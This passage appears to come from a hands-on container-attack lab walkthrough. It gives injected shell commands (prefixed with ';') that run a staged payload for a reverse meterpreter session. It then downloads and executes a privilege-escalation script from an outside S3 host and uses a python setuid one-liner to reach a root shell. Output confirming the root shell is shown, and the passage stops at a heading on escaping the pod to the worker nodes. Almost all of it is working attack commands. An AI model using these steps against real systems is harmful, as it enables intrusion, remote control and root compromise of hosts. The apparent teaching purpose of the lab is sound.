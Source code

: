 Change the permissions to make the script executable

```bash
;chmod 777 /tmp/met
```

Execute the script

```bash
;/tmp/met
```

Now you have a reverse meterpreter session from the container, to get a shell type `shell`

```bash
meterpreter > shell
Process 321 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

You have a shell and are the `www-data` user.

### Escalate privileges on the container

Now you need do the privilege escalation within the container to gain root. In the terminal where the container listener and run the following commands:

```bash
cd /tmp
```

Download the `priv-es` script to `/tmp`

```bash
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
```

Make the script executable:

```bash
chmod a+x ./priv-es
```

Execute the script

```bash
./priv-es
python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Show that you are now root on the container

```bash
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

### Gain access to worker nodes (Escaping the pod and getting a shell on the worker node)
